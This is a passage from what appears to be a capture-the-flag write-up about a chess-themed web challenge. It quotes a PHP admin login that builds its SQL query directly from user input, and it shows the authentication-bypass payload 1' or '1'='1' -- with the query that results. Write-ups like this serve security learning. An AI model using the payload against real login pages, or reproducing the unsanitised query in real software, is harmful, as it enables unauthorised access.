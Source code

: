 After writing down those insights, that only good lead I have is getting admin access to manipulate Stockfish.

Naturally, I analyzed `admin.php` for some more insights about the code:

1. Setting admin parameters
```php
if (isset($_SESSION['isadmin']) && $_SESSION['isadmin'] == true) {
	<h1>Change config of the Chess AI!</h1>
	<form method="POST">
		Thinking Time: <input type="number" name="thinking_time" value="<?php echo $_SESSION['thinking_time']; ?>"><br/>
          AI Queen Cheats: <input type="radio" id="cheats_enabled" name="cheats_enabled" value="1"> <label for="cheats_enabled">Yes</label> <input type="radio" id="cheats_enabled" name="cheats_enabled" value="0"> <label for="cheats_enabled">No</label><!-- Currently set to: <?php echo $_SESSION['cheats_enabled']; ?> -->
		<input type="submit">
	</form>
}
```

It seems lhat luckily both the cheats_enabled and the thinking_time parameters can be altered in the admin panel. Now just to get access to it.

2. Logging as admin
```php
if (isset($_POST['username']) && isset($_POST['password'])) {
    $query = sprintf("SELECT username FROM chess_ctf_admins WHERE username='%s' AND password='%s'", $_POST['username'], $_POST['password']);
    try {
        $result = $conn->query($query);
    } catch (mysqli_sql_exception $e) {
        echo($e);
    }
    $row = $result->fetch_assoc();
    if (count($row) < 1) {
        echo "Invalid Login!";
        $_SESSION['isadmin'] = false;
    } else {
        echo "Logged in successfully!";
        $_SESSION['isadmin'] = true;
        $page = $_SERVER['REQUEST_URI'];
        header("Location: ". $page);
    }
}
```

This screams llike SQL injection as the input username and password are passed straight into the SQL SELECT query without sanitation. Moreover, the check for admin when logging in simply verifies that more than one row is returned from the SELECT query.

So, setting up the `username` parameter to `1' or '1'='1' --` and `password` to anything will result in the query string to look like this:

```sql
SELECT username FROM chess_ctf_admins WHERE username='1' or '1'='1' --' AND password='anything'
```
